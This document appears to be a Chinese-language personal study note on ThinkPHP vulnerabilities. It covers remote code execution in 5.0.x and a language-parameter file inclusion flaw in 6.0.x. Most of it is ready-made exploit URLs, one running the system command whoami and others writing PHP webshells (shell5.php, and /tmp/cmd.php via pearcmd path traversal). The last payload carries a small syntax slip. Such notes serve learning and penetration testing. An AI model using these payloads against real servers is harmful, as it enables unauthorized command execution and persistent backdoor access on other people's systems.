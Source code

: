 # 中间件漏洞

### ThinkPhp漏洞

> ThinkPhp`5.0.20`远程代码执行漏洞

- 漏洞`产生`:由于没有正确处理控制器名,导致网站没有开启强制路由的情况(即默认情况下)可以执行任意方法,从而导致`远程命令执行漏洞`
- 影响`版本`:`5.0.x < ThinkPhp 5.1.x < 5.1.31`



#### ThinkPhp`5.0.20`远程代码执行

- 报错查看`版本信息`

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920152624201.png" alt="image-20240920152624201" style="zoom:50%;" />

- 构造`payload`

- ```php
  ?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
  ```

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920152923099.png" alt="image-20240920152923099" style="zoom:50%;" />

- 执行`系统命令`-->`whoami`

- ```php
  ?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
  ```

  <img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920153225301.png" alt="image-20240920153225301" style="zoom:50%;" />

- 写入`webshell`

- ```php
  ?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell5.php&vars[1][]=<?php @assert($_REQUEST['cmd']);echo "success";?>
  ```

  <img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920154650010.png" alt="image-20240920154650010" style="zoom:50%;" />

- 使用`工具检测`

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920160022068.png" alt="image-20240920160022068" style="zoom:50%;" />

------

> ThinkPhp`6.0.12`文件包含漏洞

- 漏洞`产生`:当ThinkPhp开启了`多语言功能`时,攻击者可以通过`lang`参数和`目录穿越`实现`文件包含`,当存在其它扩展模块如`pear`扩展时,攻击者可进一步利用文件包含实现远程代码执行
- `限制`:该漏洞最大的限制点就是被包含文件的`后缀`一定是`php`,要包含一个php文件,利用的方式就少了,但我们可以利用`pearcmd`
- 影响`版本`:`6.0.1 < ThinkPhp < 6.0.13`

#### ThinkPhp`6.0.12`文件包含

- 写`webshell`

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval$_REQUEST['cmd']);?+/tmp/cmd.php
  ```
